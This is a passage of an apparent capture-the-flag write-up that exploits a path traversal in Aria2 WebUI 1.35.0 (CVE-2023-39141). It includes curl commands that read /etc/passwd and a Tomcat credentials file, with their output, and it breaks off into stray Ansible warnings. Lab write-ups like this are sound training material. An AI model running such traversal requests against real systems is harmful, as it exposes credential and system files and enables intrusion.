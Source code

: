 We found 3 open port, 22 running ssh as usual, 8080 us running tomcat 8.5 and 8888 seems to be another http server.

### Web

We start with the website on port 8888.

![firstweb](1.png)

It's `Aria2 WebUI`, going to settings -> server info we find the version.

![version](2.png)

The version running is `1.35.0`

Searching on google for exploits on this version we find that it is vulnerable to `Path traversal` [CVE-2023-39141](https://nvd.nist.gov/vuln/detail/CVE-2023-39141)

We find the following [poc](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e) which uses `curl` to read the passwd file.

```bash
curl --path-as-is http://localhost:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
```

Let's replicate the exploit.

```terminal
┌─[]─[10.9.1.8]─[sirius@parrot]─[~/ctf/thm/backtrack]
└──╼ [★]$ curl --path-as-is http://10.10.76.96:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

It worked and we managed to read the `passwd` file.

I tried searching for private ssh keys but no luck with that.

Since Tomcat is running on port 8080, we can try reading the credentials file `tomcat-users.xml`.

From the passwd file we see that tomcat is located at the `/opt` directory, so the file should be at `/opt/tomcat/conf/tomcat-users.xml`

```terminal
┌─[]─[10.9.1.8]─[sirius@parrot]─[~/ctf/thm/backtrack]
└──╼ [★]$ curl --path-as-is http://10.10.76.96:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="OP[REDACTED]fr" roles="manager-script"/>

</tomcat-users>
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-                                             
[WARNING]: Skipping plugin (/usr/lib/python3/dist